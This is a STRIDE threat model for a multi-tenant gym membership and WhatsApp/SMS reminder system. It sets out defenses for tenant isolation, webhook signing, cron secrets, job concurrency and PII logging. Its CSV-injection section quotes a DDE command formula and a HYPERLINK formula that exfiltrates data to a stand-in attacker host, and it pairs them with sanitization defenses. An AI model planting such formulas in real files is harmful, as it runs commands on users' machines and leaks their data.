

# Security Architecture & Threat Model

## Gym Membership Management and Automated Notification System

**Document Version:** 1.0.0  
**Status:** Approved for Technical Architecture  
**Lead:** Application Security Engineer & Cybersecurity Lead  
**Methodology:** STRIDE (Spoofing, Tampering, Repudiation, Information Disclosure, Denial of Service, Elevation of Privilege)  
**Regulatory Framework:** Indian Digital Personal Data Protection (DPDP) Act 2023 & TRAI TCCCPR

---

### 1. Data Classification & Privacy Baseline

The system processes and stores customer personal data. Mismanagement introduces significant legal and financial liabilities.

| Classification | Data Elements | Storage Rules | Access Boundaries |
| :--- | :--- | :--- | :--- |
| **Confidential (PII)** | Member Name, Mobile Number, Email, Emergency Contact, Date of Birth. | Encrypted at rest (PostgreSQL AES-256), strict RLS, never logged in plaintext in server console. | Authenticated gym staff with active tenant session only. |
| **Sensitive Operational** | Meta WhatsApp System User Access Token, App Secret, SMS Provider API Keys, Cron Secret. | Vercel Encrypted Environment Variables; never exposed to browser; never committed to Git. | Serverless runtime execution environment only. |
| **Operational & Audit** | Audit logs, subscription dates, notification statuses, delivery receipts. | Retained per documented retention schedules; immutable append-only logs. | Read-only access by Gym Admin/Owner. |

---

### 2. STRIDE Threat Matrix & Mitigations



---

### 3. Detailed Threat Vector Analysis & Engineering Defenses

#### 3.1. Unauthorized Access & Broken Object-Level Authorization (BOLA)
- **Threat Vector:** An authenticated staff member alters a URL parameter or API request body (e.g., passing another member's UUID or another gym's `gym_id`) to view or mutate records belonging to a different gym tenant.
- **Root Cause:** Trusting client-supplied IDs without verifying database tenant boundaries.
- **Applied Defense:**
  1. Every database query in the application uses Supabase Row Level Security (RLS) with session-derived identity:
     ```sql
     USING (gym_id = (SELECT gym_id FROM profiles WHERE id = auth.uid()))
     ```
  2. All serverless API functions independently extract `gym_id` from the verified user session token, completely ignoring any `gym_id` passed in request bodies or query params.

#### 3.2. Supabase Service-Role Key & API Token Leakage
- **Threat Vector:** Developer commits `.env` containing `SUPABASE_SERVICE_ROLE_KEY` or `META_WHATSAPP_TOKEN` to Git, or bundles the service-role key into the Vite frontend build.
- **Root Cause:** Misunderstanding Vite's client-side bundling (`VITE_` prefix exposes variables to the public browser).
- **Applied Defense:**
  1. Frontend code is strictly constrained to use public anon keys (`VITE_SUPABASE_URL` and `VITE_SUPABASE_ANON_KEY`).
  2. The service-role key (`SUPABASE_SERVICE_ROLE_KEY`), Meta App Secret (`META_APP_SECRET`), and SMS API keys **never** use the `VITE_` prefix and reside exclusively in Vercel backend environment variables.
  3. Pre-commit hooks (`git-secrets` / `trufflehog`) block commits containing high-entropy API keys.

#### 3.3. Forged, Replayed or Duplicated Webhooks
- **Threat Vector:** An attacker discovers `/api/webhooks/whatsapp` and posts forged delivery failure events, tricking the system into firing costly SMS messages or corrupting member notification statuses.
- **Applied Defense:**
  1. **Cryptographic Signature Verification:** The serverless handler computes an HMAC-SHA256 hash of the raw HTTP request body using `process.env.META_APP_SECRET`. Crucially, to prevent uncaught exceptions when string lengths differ, the code verifies `bufferA.length === bufferB.length` before invoking `crypto.timingSafeEqual()`. Requests failing the signature check are rejected immediately with HTTP 401.
  2. **Webhook Deduplication:** The event payload ID is extracted and inserted into `webhook_events` with a `UNIQUE(event_id)` constraint. If a replayed webhook arrives, the duplicate is ignored safely.
  3. **Monotonic Status Guard:** Webhooks can arrive out of order. Database status updates enforce monotonic progression (`read` > `delivered` > `sent` > `initiated`), preventing late-arriving receipts from overwriting confirmed delivery.

#### 3.4. Forged Scheduled-Job (Cron) Requests
- **Threat Vector:** An unauthorized party triggers `/api/cron/reminders` repeatedly, attempting to flood member phones with duplicate messages or exhaust API quotas.
- **Applied Defense:**
  1. The cron endpoint requires an `Authorization: Bearer <CRON_SECRET>` header.
  2. The handler validates the secret against an environment-injected 64-character random token using constant-time string comparison (`timingSafeEqual` guarded by length matching).
  3. Even if triggered maliciously, the database **Idempotency Key** (`UNIQUE(idempotency_key)`) prevents duplicate job generation for the same subscription milestone on the same date.

#### 3.5. Concurrent Job Execution, Zombie Leases & Two-Phase Recovery Defenses
- **Threat Vector:** Two scheduled jobs or worker invocations execute simultaneously, claiming the same pending reminder job, or a serverless worker crashes mid-dispatch leaving jobs stuck or causing duplicate message dispatches upon lease expiration.
- **Root Cause:** A lease expiring does not confirm whether an external provider request was transmitted before the crash. Reclaiming blindly causes duplicate messaging.
- **Applied Defense:**
  1. **Two-Phase Dispatch Intent Protocol:** Workers write durable intent (`notification_attempts.status = 'dispatching'`) and mark the job `dispatching` BEFORE opening any TCP socket to the external provider.
  2. **Guarded Lease Claiming (`claim_notification_jobs`):** The atomic claim RPC uses `FOR UPDATE SKIP LOCKED`, but explicitly excludes any jobs that already have an attempt in `dispatching`, `sent`, or `unknown`.
  3. **Crash Handling Separation:**
     - Crashes *before* dispatch intent: Safely reclaimed by next worker after 5 minutes.
     - Crashes *after* dispatch intent: Job enters `reconciling` and awaits asynchronous delivery receipts; duplicate automated dispatch is strictly blocked.
  4. **Timeout SMS Prohibition:** Network timeouts or socket drops transition attempts to `unknown`, awaiting webhook reconciliation. Automated SMS fallback is strictly prohibited on ambiguous timeouts.

#### 3.6. Malicious CSV Uploads & Formula Injection (CSV Injection)
- **Threat Vector:** An attacker imports a CSV containing `=CMD|' /C calc'!A0` or `=HYPERLINK("http://attacker.com/steal?leak="&A2)` in the member name field. When staff exports the member list and opens it in Excel, the spreadsheet executes arbitrary commands or exfiltrates data.
- **Applied Defense:**
  1. **Strict Input Validation:** The import pipeline validates member names with regex `^[a-zA-Z\s\.\'-]{2,100}$`, disallowing leading symbols.
  2. **Export Sanitization:** During CSV export, all string values starting with `=`, `+`, `-`, `@`, `\t`, or `\r` are automatically prepended with a single quote (`'`), ensuring spreadsheet software parses them strictly as inert text literals.

#### 3.7. Excessive Logging of Personal Data (PII Leakage)
- **Threat Vector:** Application logs member phone numbers, names, and medical notes in plaintext to Vercel runtime logs, where unauthorized developers or third-party log forwarders can access them.
- **Applied Defense:**
  1. A centralized structured logger (`pino` / custom logger) incorporates automated redaction rules for sensitive keys: `phone`, `email`, `notes`, `emergency_contact_phone`.
  2. Phone numbers are masked in log outputs: `+919876543210` $\rightarrow$ `+9198****3210`.

#### 3.8. Stale Reminders Post-Subscription Renewal
- **Threat Vector:** A member's subscription is set to expire on Friday. On Thursday, the member pays cash and staff renews the plan for 30 days. On Friday morning, the scheduled cron fires the old T-0 reminder, confusing the member and eroding trust in the gym.
- **Applied Defense:**
  1. A PostgreSQL database trigger (`public.cancel_stale_notification_jobs_on_renewal`) automatically fires upon any subscription insert or end-date change, finding all pending jobs for that member and setting `status = 'cancelled'` with `cancellation_reason = 'subscription_renewed_or_extended'`.
  2. **Pre-Dispatch Verification:** Right before calling the external Meta/SMS API, the worker re-queries the member's current active subscription. If renewed or extended, dispatch is aborted immediately.

#### 3.9. Messaging Abuse, Opt-Out Compliance & Regulatory DPDP Scope
- **Threat Vector:** Gym continues messaging members who have terminated their gym membership or revoked consent, violating Meta's Acceptable Use Policy and DPDP Act provisions.
- **Applied Defense:**
  1. Member records maintain explicit `whatsapp_consent` and `sms_consent` booleans with audit timestamps.
  2. If a member sends "STOP" or requests unsubscription, staff toggles the consent switch, immediately cancelling all future scheduled reminder jobs.
  3. The notification engine explicitly verifies `whatsapp_consent == true` before making any external API call.
  4. *Regulatory Boundary Note:* Documenting security controls does NOT constitute formal legal compliance. Compliance with the Indian DPDP Act 2023 requires the gym business entity to maintain physical consent records and provide a designated Data Protection Officer / grievance redressal mechanism.

#### 3.10. PostgreSQL `search_path` Hijacking, Object Shadowing & Overprivileged Functions
- **Threat Vector:** A `SECURITY DEFINER` function executes with the privileges of its owner (such as `postgres` with `BYPASSRLS`). Setting `search_path = public, pg_temp` is insufficient because an attacker with temporary object rights or access to an untrusted schema can define custom operators or shadow functions to hijack execution. Furthermore, default PostgreSQL permissions grant `EXECUTE` to `PUBLIC`.
- **Applied Defense:**
  1. All privileged functions (`current_user_gym_id()`, `cancel_stale_notification_jobs_on_renewal()`, `claim_notification_jobs()`) enforce `SET search_path = pg_catalog`, completely eliminating temporary schema lookup.
  2. All database objects (tables, functions, types) are strictly schema-qualified (e.g. `public.profiles`, `auth.uid()`, `public.notification_jobs`).
  3. Default execution rights are explicitly revoked: `REVOKE ALL ON FUNCTION ... FROM PUBLIC, anon;`.
  4. Execution is granted strictly to the minimum required role (`authenticated` for `current_user_gym_id()`, `service_role` for `claim_notification_jobs()`).
  5. The helper function `current_user_gym_id()` is strictly bounded to filter `WHERE id = auth.uid()` to prevent tenant boundary leakage.

#### 3.11. Overlapping Subscriptions, Concurrent Renewal Races & Duplicate Submissions
- **Threat Vector:** Two staff members submit renewals simultaneously for the same member, or a staff member double-clicks "Submit" on a slow network, creating multiple overlapping active subscription records and generating corrupted payment and reminder histories.
- **Applied Defense:**
  1. **PostgreSQL Exclusion Constraints:** The `subscriptions` table enforces `EXCLUDE USING gist (member_id WITH =, daterange(start_date, end_date, '[]') WITH &&) WHERE (status = 'active')`, making it physically impossible for two active coverage periods to overlap at the database engine level.
  2. **Row-Level Mutual Exclusion:** The renewal API endpoint acquires an exclusive row lock (`SELECT id FROM members WHERE id = :member_id FOR UPDATE`), serializing concurrent transactions.
  3. **Client Renewal Idempotency Keys:** Every renewal request requires a client-generated UUID `idempotency_key` backed by `UNIQUE(gym_id, idempotency_key)`. Retried submissions return the existing subscription without re-executing.
  4. **Contiguous Date Calculation:** System queries the member's current active subscription to automatically calculate `start_date = active.end_date + 1 day`, preventing accidental retroactive overlaps.

---

### 4. Application Security Controls Summary Checklist

| Security Control | Implementation Mechanism | Verification Method |
| :--- | :--- | :--- |
| **Authentication** | Supabase GoTrue Auth (JWT + PKCE) | Integration tests verifying invalid/expired tokens receive 401. |
| **Authorization** | Supabase RLS + Profile Role Verification | Automated RLS test suite asserting tenant data separation. |
| **Secret Management** | Vercel Backend Environment Variables | Automated scanner checking client bundles for leaked keys. |
| **Webhook Security** | HMAC-SHA256 signature verification | Test suite submitting payloads with valid, forged, and missing signatures. |
| **Cron Security** | Bearer CRON_SECRET with `timingSafeEqual` | Test asserting 401 on missing secret and timing invariance. |
| **Queue Concurrency** | `FOR UPDATE SKIP LOCKED` | Concurrency stress tests with 10 parallel worker requests. |
| **Formula Injection** | Sanitizer prefixing `'` to formula triggers | Unit test asserting export strings are escaped properly. |
| **PII Protection** | Structured logging with regex redaction filters | Log assertion tests verifying no plaintext phone numbers in console. |
